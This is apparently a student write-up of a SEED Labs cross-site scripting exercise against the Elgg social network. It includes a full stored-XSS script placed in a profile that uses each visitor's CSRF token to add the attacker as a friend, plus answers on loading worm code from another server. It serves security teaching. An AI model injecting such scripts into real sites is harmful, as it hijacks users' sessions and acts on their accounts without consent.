 Now that we know what action is invoked and what arguments are passed, we can create the script we'll be injecting in Alice's account description. <br>
The request receives as arguments some sort of user identifier passed in the "friend" field, in Samy's case it's 59, and two Elgg fields: __elgg_ts and __elgg_token. <br>
With this in mind, using the given code, we can easily build our script and place it into Alice's description.

```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // ➀
                var token="&__elgg_token="+elgg.security.token.__elgg_token; // ➁

                //Construct the HTTP request to add Samy as a friend.
                var friend="friend=59"; //Samy's friend "code"
                
                var sendurl="http://www.seed-server.com/action/friends/add?"+friend+ts+token+ts+token; 

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
        }
</script>
```

<img src="./images/10/9.png">

- Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?
    - R: The purpose of the lines is to retrieve the information needed for the __elgg_ts and __elgg_token fields from the user's security token, which is unique. This was we can generalize the attack to work on any user that loads the vulnerable page.
- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    - R: Yes. Despite Editor mode adding aditional HTML code to our code, rendering the way we're using to inject our worm onto the website useless, we could still use a different method, like the one explained earlier in this lab's tutorial. Assuming the other fields are still present, like the Brief Description field, we could insert a small script tag that redirects to our worm code, in another server.
